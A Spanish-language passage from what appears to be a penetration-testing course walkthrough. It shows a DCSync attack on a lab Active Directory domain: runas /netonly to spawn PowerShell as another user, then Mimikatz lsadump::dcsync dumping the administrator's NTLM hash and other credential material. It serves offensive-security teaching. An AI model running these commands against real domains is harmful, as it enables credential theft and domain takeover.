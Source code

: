 #### Usando runas.exe

  Dcsync

```cmd-session
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

Desde la sesión de PowerShell recientemente generada, podemos realizar el ataque:

#### Realizando el ataque con Mimikatz

  Dcsync

```powershell-session
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```

---